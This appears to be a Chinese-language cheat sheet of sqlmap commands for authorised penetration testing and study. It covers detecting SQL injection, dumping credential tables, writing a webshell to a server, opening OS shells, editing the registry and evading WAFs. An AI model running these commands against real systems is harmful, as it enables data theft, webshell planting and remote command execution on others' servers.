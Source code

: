 # Sqlmap

<p align="center">
    <img src="../../../assets/img/logo/Sqlmap.png" width="25%"></a>
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章 & Reference**
- [Sqlmap使用教程[个人笔记精华整理] | 漏洞人生](http://www.vuln.cn/1992)
- [sqlmap用户手册[续]](http://drops.xmd5.com/static/drops/tips-401.html)

---

# 常见操作

**检测注入**
```bash
sqlmap -u URL                                           # 判断注入
sqlmap -u URL -p id                                     # 指定参数注入
sqlmap -u URL --cookie="xxxxx"                          # 带 cookie 注入
sqlmap -u URL --batch                                   # 不要请求用户输入,使用默认行为
sqlmap -r aaa.txt                                       # post 型注入

sqlmap -u URL --flush-session                           # 清除缓存

sqlmap -u URL --os "Windows"                            # 指定操作系统
sqlmap -u URL --dbms mysql --level 3                    # 指定数据库类型为 mysql,级别为 3(共 5 级,级别越高,检测越全面)
sqlmap -u URL --dbms Microsoft SQL Server
sqlmap -u URL --dbms mysql --risk 3                     # 指定执行测试的风险(1-3, 默认 1) 1会测试大部分的测试语句,2会增加基于事件的测试语句,3会增加 OR 语句的 SQL 注入测试
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3                 # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080"         # 代理注入测试
sqlmap -u URL --batch --smart       # 启发式判断注入
```

**获取信息**
```bash
sqlmap -u URL --current-db          # 获取当前数据库
sqlmap -u URL --dbs                 # 枚举所有数据库
sqlmap -u URL -f                    # 检查 DBMS 版本
sqlmap -u URL --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL --users               # 列出数据库管理系统用户
sqlmap -u URL --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL --passwords           # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all            # 列出所有数据库,所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell                       # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell                        # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig                 # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```

**对Windows注册表操作**
```bash
--reg-read                                      # 读取注册表值
--reg-add                                       # 写入注册表值
--reg-del                                       # 删除注册表值
--reg-key,--reg-value,--reg-data,--reg-type     # 注册表辅助选项

sqlmap -u URL --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```

**预估完成时间**
```bash
--eta                                           # 计算注入数据的剩余时间
```

**测试WAF/IPS/IDS保护**
```bash
--identify-waf                                                      # 尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。
--mobile                                                            # 模仿智能手机
--referer "http://www.google.com"                                   # 模拟来源
--user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"    # 模拟谷歌蜘蛛
```
